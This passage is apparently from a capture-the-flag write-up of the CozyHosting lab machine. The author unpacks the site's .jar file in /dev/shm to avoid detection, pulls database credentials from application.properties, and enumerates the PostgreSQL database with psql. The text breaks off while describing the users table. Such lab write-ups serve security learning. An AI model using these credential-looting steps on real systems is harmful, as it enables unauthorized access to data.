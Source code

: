 Once on the box I spawn into the `/app` directory with a file called `cloudhosting-0.0.1.jar`. This is the website source directory. I want to look through it in case there's any credentials are juicy info in there. `.jar` files are similar to `.zip` files, and can be unzipped by just renaming them to a `.zip` extension and running `unzip`.  It would be a lot easier to look through the unzipped files if I exfilled it back to my box. I would however like to avoid doing this as it's technically less stealthy.

Instead I navigate into `/dev/shm` and create a folder called `src`. I copy the `.jar` file into there, rename it to a `.zip` extension, and unzip the file. I start by looking in `BOOT-INF/classes` as that seems my best bet. I see an `application.properties` file and `cat` it, and sure enough, find database credentials

![creds](Wed-29-2023_01-27.png)

I use these creds to connect to the the PostgreSQL database.
```bash
psql -h localhost -U postgres -W <REDACTED>
```
The syntax for `postgresql` is different from MySQL. 
```bash
# Use \l to list all the datbases
postgres-# \l
                                   List of databases
    Name     |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges   
-------------+----------+----------+-------------+-------------+-----------------------
 cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 postgres    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 template0   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
 template1   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
(4 rows)

# Use \c to connect to the cozyhosting database
postgres-# \c cozyhosting
Password: 
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
You are now connected to database "cozyhosting" as user "postgres".

# Use \dt to list all the tables
cozyhosting-# \dt
         List of relations
 Schema | Name  | Type  |  Owner   
--------+-------+-------+----------
 public | hosts | table | postgres
 public | users | table | postgres
(2 rows)

# Use \d to describe a table
cozyhosting-# \d users
                        Table "public.users"
  Column  |          Type          | Collation | Nullable | Default 
```